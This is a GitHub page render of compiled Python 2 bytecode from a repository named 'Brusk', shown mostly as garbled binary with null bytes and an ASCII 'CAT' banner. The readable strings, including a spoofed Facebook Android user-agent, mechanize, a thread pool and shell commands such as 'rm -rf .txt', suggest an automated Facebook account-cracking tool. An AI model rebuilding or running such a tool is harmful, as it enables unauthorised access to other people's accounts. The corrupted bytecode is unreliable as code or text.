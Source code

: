 # AG-brusk1993
Brusk
�  
 ��&#x0;�c&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;@&#x0;&#x0;&#x0;s�&#x0;&#x0;e&#x0;&#x0;Z&#x0;e&#x0;r#&#x0;d&#x0;&#x0;d&#x0;&#x0;Z&#x0;�&#x0;�&#x0;Z&#x0;n&#x0;&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l        &#x0;Z        &#x0;d&#x0;d&#x0;l 
 &#x0;Z 
 &#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;d&#x0;d&#x0;l &#x0;Z &#x0;d&#x0;d&#x0;l&#x0;Z&#x0;e&#x0;j&#x0;d&#x0;�&#x0;xJ&#x0;e&#x0;d&#x0;�&#x0;D]<&#x0;Z&#x0;e&#x0;j&#x0;d&#x0;d&#x0;�&#x0;Z&#x0;e&#x0;d&#x0;d&#x0;�&#x0;e&#x0;_&#x0;e&#x0;GHe&#x0;j&#x0;j&#x0;�&#x0;&#x0;q�&#x0;We&#x0;j&#x0;d        &#x0;�&#x0;e&#x0;j&#x0;d 
 &#x0;�&#x0;y&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;Wn&#x0;e&#x0;k 
 &#x0;rWe&#x0;j&#x0;d&#x0;�&#x0;n&#x0;Xy&#x0;d&#x0;d&#x0;l&#x0;Z&#x0;Wn8&#x0;e&#x0;k 
 &#x0;r�e&#x0;j&#x0;d&#x0;�&#x0;e&#x0;j&#x0;d &#x0;�&#x0;e&#x0;j&#x0;d&#x0;�&#x0;n&#x0;Xd&#x0;d&#x0;l&#x0;m&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;m&#x0;Z&#x0;d&#x0;d&#x0;l&#x0;m&#x0;Z&#x0;e &#x0;e&#x0;�&#x0;e&#x0;j!&#x0;d&#x0;�&#x0;e&#x0;j&#x0;�&#x0;&#x0;Z"&#x0;e"&#x0;j#&#x0;e&#x0;&#x0;�&#x0;e"&#x0;j$&#x0;e&#x0;j%&#x0;j&&#x0;�&#x0;&#x0;d&#x0;d &#x0;�d&#x0;d&#x0;f&#x0;g&#x0;e"&#x0;_'&#x0;d&#x0;�&#x0;&#x0;Z(&#x0;d&#x0;�&#x0;&#x0;Z)&#x0;d&#x0;�&#x0;&#x0;Z*&#x0;d&#x0;�&#x0;&#x0;Z+&#x0;d&#x0;Z,&#x0;g&#x0;&#x0;Z-&#x0;g&#x0;&#x0;a.&#x0;g&#x0;&#x0;a/&#x0;g&#x0;&#x0;Z0&#x0;d&#x0;�&#x0;&#x0;Z1&#x0;d&#x0;�&#x0;&#x0;Z2&#x0;e3&#x0;d&#x0;k&#x0;r�e1&#x0;�&#x0;&#x0;n&#x0;&#x0;d&#x0;S(&#x0;&#x0;&#x0;i&#x0;&#x0;&#x0;&#x0;i����Ns&#x0;&#x0;&#x0;rm -rf .txti��&#x0;iG�&#x0;i��&#x0;s&#x0;&#x0;&#x0;.txtt&#x0;&#x0;&#x0;as&#x0;&#x0;&#x0;figlet STOPi&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;pip2 install requestss&#x0;&#x0;&#x0;pip2 install mechanizei&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;python2 cat.py(&#x0;&#x0;&#x0;t 
 &#x0;&#x0;&#x0;ThreadPool(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;ConnectionError(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;Browsert&#x0;&#x0;&#x0;utf8t&#x0;&#x0;&#x0;max_times 
 &#x0;&#x0;&#x0;user-agents&#x0;&#x0;Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]c&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;C&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;d&#x0;GHt&#x0;&#x0;j&#x0;j&#x0;�&#x0;&#x0;d&#x0;&#x0;S(&#x0;&#x0;&#x0;Ns&#x0;&#x0;&#x0;[!] Exit(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;ost&#x0;&#x0;&#x0;syst&#x0;&#x0;&#x0;exit(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyt&#x0;&#x0;&#x0;exb)&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;&#x0;c&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;C&#x0;&#x0;&#x0;sC&#x0;&#x0;&#x0;x<&#x0;|&#x0;&#x0;d&#x0;D]0&#x0;}&#x0;t&#x0;&#x0;j&#x0;j&#x0;|&#x0;�&#x0;t&#x0;&#x0;j&#x0;j&#x0;�&#x0;&#x0;t&#x0;j&#x0;d&#x0;�&#x0;q&#x0;Wd&#x0;&#x0;S(&#x0;&#x0;&#x0;Ns&#x0;&#x0;&#x0; 
 g���Q��?(&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;stdoutt&#x0;&#x0;&#x0;writet&#x0;&#x0;&#x0;flusht&#x0;&#x0;&#x0;timet&#x0;&#x0;&#x0;sleep(&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;zt&#x0;&#x0;&#x0;e(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyt&#x0;&#x0;&#x0;psb.&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;&#x0; c&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;C&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;t&#x0;&#x0;j&#x0;d&#x0;�&#x0;d&#x0;&#x0;S(&#x0;&#x0;&#x0;Ni&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;R &#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyt&#x0;&#x0;&#x0;t5&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;&#x0;c&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;&#x0;C&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;t&#x0;&#x0;j&#x0;d&#x0;�&#x0;d&#x0;&#x0;S(&#x0;&#x0;&#x0;Nt&#x0;&#x0;&#x0;clear(&#x0;&#x0;&#x0;R&#x0;&#x0;&#x0;t&#x0;&#x0;&#x0;system(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;(&#x0;&#x0;&#x0;&#x0;s &#x0;&#x0;&#x0;223842065o.pyt&#x0;&#x0;&#x0;cb9&#x0;&#x0;&#x0;s&#x0;&#x0;&#x0;&#x0;s�&#x0;&#x0;[1;97m 
    _____       _______  
   / ____|   /\|__   __| 
  | |       /  \  | |    
  | |      / /\ \ | |    
  | |____ / ____ \| |    
   \_____/_/    \_\_|    
                         
